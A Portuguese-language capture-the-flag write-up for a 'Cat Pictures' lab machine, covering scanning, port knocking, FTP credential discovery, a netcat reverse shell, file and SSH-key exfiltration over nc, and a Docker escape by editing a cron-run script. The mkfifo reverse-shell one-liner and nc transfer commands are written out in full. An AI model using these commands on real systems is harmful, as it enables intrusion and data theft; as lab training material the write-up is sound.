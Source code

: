 # _**Cat pictures CTF**_
![](cat.jpg)

## _**Enumeração**_
Vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap --open -A -Pn [ip_address]
> ```
![](scan_nmap.jpg)

Temos um website na porta 8080  
Vamos realizar um scan com <mark>Gobuster</mark>  
> ```bash
> gobuster dir --url [ip_address]:8080 -w ../seclists/Discovery/Web-Content/common.txt
> ```
![](scan_gobuster.jpg)

Temos diversos diretórios que pdemos tentar acessar, mas ao tentar, a maioria retorna como _forbidden_
Sabemos que o website é _powered by phpBB_  
Alterando o endereço, conseguimos encontrar sua versão com: http://[ip_address]:8080/docs/changelog.html  
Mesmo com _docs_ dando _forbidden_, ainda conseguimos acessar _changelog.html_ e sua versão: 3.3.x  
Para sabermos a versão exata, vamos executar o comando ```curl```  
> ```bash
> curl http://[ip_address]:8080/docs/CHANGELOG.html | grep -i "phpBB 3.3"
> ```

E temos sua versão: 3.3.0  
Pesquisando com o auxílio do GPT, temos algumas falhas das quais podemos explorar:
* **XSS**: CVE-2020-10580
* **Open Redirect**: CVE-2020-10581
* **CSRF/Config leak**: CVE-2020-8228

## _**Ganhando acesso**_

Após algum tempo tentanto cada uma, não obtive nenhum resultado  
Vamos continuar  
Investigando mais o site, uma peculiaridade  

![](knock.jpg)

Pesquisando um pouco, encontra-se uma técnica conhecida como _**port knocking**_  
É é uma técnica usada para “esconder” portas de serviços, de forma que elas só abram depois que uma sequência secreta de conexões em portas específicas for feita  
E existe uma ferramenta para realizar tal tarefa: <mark>knockd</mark>  
> ```bash
> knock [ip_address] [port1], [port2], ..., [portN]
> ```

Realizando novamente um scan com **Nmap**, temos resultado!  
A porta 21 - FTP está aberta  

![](ftp_open.jpg)

Realizamos login via FTP e então pegamos o arquivo que está lá

![](ftp_get.jpg)

Parece que temos um usuário e login:
* **usuário:** catlover
* **senha:** sardinethecat

Vamos utilizar a ferramenta ```netcat``` para fazer login na porta 4420  
> ```
> nc [ip_address] [port]
> ```
![](net_log.jpg)

Após o login, precisamos melhorar essa nossa _shell_  
Vamos primeiro ligar nosso ```nc``` na porta 4444  
Em seguida, executamos o comando abaixo
> ```bash
> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [port] [port] >/tmp/f
> ```
![](shell.jpg)

Conseguimos uma _shell_ melhor  
E para deixar ainda mais prático, vamos executar o comando: ```/bin/bash -i```  
Continuando nossa investigação, temos um arquivo _**runme**_ no diretório do usuário, mas não podemos executá-lo  
Vamos tentar puxar ele para a nossa máquina  
> ```bash
> nc -lp [port] > runme
> ```
> ```bash
> nc -w 3 [ip_adderss] [port] < /home/catlover/runme
> ```
![](nc_transfer.jpg)

Tentando executar o arquivo na nossa máquina, é necessário senha  
Tentamos a qual nos foi fornecida e nada  
Vamos tentar outros meios  
Primeiro, ```strings```  

No retorno, temos uma chave SSH e também um usuário  
Executamos o arquivo e inserimos a senha descoberta anteriormente com o comando ```strings```  
Parece que é gerado uma chave _id_rsa_  

Vamos executar na máquina-alvo  
Primeiro, executamos novamente o arquivo _runme_  
Em seguida, verificamos se a chave foi gerada em _/home/catlover/_  
Por último, transferimos para nosso computador via ```netcat``` a chave e tentamos fazer login via SSH, dando as permissões necessárias
> ```bash
> ssh -i id_rsa catlover@[ip_address]
> ```
![](ssh_login.jpg)

Temos logina via SSH!  

## _**Escalando privilégios**_
Apesar de termos conseguido a primeira flag, parece que estamos dentro de um _docker_  

![](docker.jpg) 

Vamos tentar escapar  
Primeiro, verificamos o arquivo _bash_history_  

![](bash_hist.jpg)

Parece que o arquivo _/opt/clean/clean.sh_ faz parte do _cronjob_ e é executado  
Vamos alterar este arquivo para conseguirmos um verdadeiro _shell_  

![](clean_altered.jpg)  

Basta aguardar pela conexão e então, adquirir a última flag!
